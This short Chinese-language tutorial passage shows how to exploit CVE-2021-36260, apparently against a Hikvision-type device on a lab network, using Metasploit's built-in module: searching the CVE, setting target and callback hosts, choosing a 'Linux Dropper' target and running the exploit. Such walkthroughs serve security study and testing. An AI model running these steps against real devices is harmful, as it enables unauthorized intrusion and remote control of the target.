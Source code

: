 其实 `Metasploit` 中自带了 `CVE-2021-36260` 的 `Payload`，攻击起来异常便利

```plain
search CVE-2021-36260
```

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

填写部分信息

```plain
set rhost 192.168.1.64
set lhost 192.168.1.125
show targets 
set target Linux Dropper
```

![图片](assets/1710993392-cb921639899c046a31a3eb3ba6dee785.png)

```plain
exploit
```

![图片](assets/1710993392-b336a1ea5174b9c316869c16e6f752c6.png)
